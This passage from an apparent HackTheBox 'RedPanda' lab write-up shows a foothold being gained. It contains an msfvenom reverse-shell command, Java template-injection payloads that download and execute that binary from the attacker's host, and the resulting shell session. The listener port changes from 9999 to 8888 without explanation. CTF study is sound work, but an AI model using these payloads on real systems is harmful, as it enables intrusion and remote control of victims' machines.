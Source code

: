 Now, to get a reverse shell from the website, I, firstly, generated a reverse shell using `msfvenom`

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=9999 -f elf > shell.elf
```

Started my `Netcat` listener for the reverse shell.

```
nc -lvnp 9999
```

Started my HTTP server in the same location as `shell.elf`. Then sent the following commands one by one over the website’s search bar to transfer shell.elf, change its permission, and execute it.

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.16.2/shell.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./shell.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./shell.elf")}
```

Once I sent the final execute command, I got a shell on my netcat listener

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/RedPanda]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.170] 52392
whoami
woodenk
python3 -c 'import pty; pty.spawn("/bin/bash")'
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ls

```

Then, I upgraded the shell and looked out for the user flag.

```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cd /home
cd /home
woodenk@redpanda:/home$ ls
ls
woodenk
woodenk@redpanda:/home$ cd woodenk
cd woodenk
woodenk@redpanda:/home/woodenk$ ls
ls
user.txt
woodenk@redpanda:/home/woodenk$ cat user.txt
cat user.txt
[REDACTED]

```

Tried running `sudo -l` but it asked me for `woodenk's` password, so I had to find another way. I uploaded `linpeas` to the target machine to find out some thing we can leverage to escalate privileges.
